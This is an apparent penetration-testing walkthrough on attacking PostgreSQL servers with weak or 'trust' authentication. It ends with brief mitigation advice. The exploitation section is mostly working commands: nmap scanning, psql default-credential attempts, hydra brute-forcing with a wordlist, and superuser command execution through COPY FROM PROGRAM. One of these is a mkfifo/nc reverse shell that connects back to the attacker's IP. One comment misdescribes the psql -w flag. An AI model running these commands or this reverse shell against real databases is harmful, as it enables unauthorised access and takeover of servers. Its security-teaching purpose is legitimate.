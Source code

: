 Full Walkthrough: PostgreSQL Weak Authentication
Theory & Background
PostgreSQL can use various authentication methods defined in its pg_hba.conf file. A common misconfiguration is using trust authentication for all connections or for specific users/databases. This allows anyone to connect to the database without a password, often with high privileges. Weak or default passwords (e.g., postgres:postgres) are also a major issue.

Step-by-Step Walkthrough
1. Identification
bash
nmap -p5432 -sV --script pgsql-info <target_ip>
Expected Result: Nmap will confirm the service and version. To test for authentication, you need to try to connect.

2. Exploitation
bash
# 1. Attempt a connection with common credentials
psql -h <target_ip> -U postgres -W  # It will prompt for password

# 2. Brute-forcing (with hydra)
hydra -l postgres -P /usr/share/wordlists/rockyou.txt <target_ip> postgres

# 3. If 'trust' authentication is misconfigured, you can connect without a password:
psql -h <target_ip> -U postgres -w
# The -w flag forces a password prompt, but if auth is 'trust', it will be bypassed.

# 4. Once connected, you can escalate to command execution.
# Check if you are a superuser:
SELECT usename, usesuper FROM pg_user;

# If you are superuser, use these functions for RCE:
# Example: Create a table that writes a file
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;

# To get a reverse shell:
COPY cmd_exec FROM PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <your_ip> 4444 >/tmp/f';
What to do: Use the COPY FROM PROGRAM or \o meta-command to execute system commands and gain a foothold on the underlying server.

3. Mitigation
Authentication: Configure pg_hba.conf to use md5 or scram-sha-256 password authentication for all hosts. Never use trust for remote hosts (host).

Passwords: Enforce strong, unique passwords for all users, especially the postgres superuser.

Network: Use a firewall to restrict access to port 5432 to only application servers that need it.

Privileges: Follow the principle of least privilege; don't grant superuser rights to application users.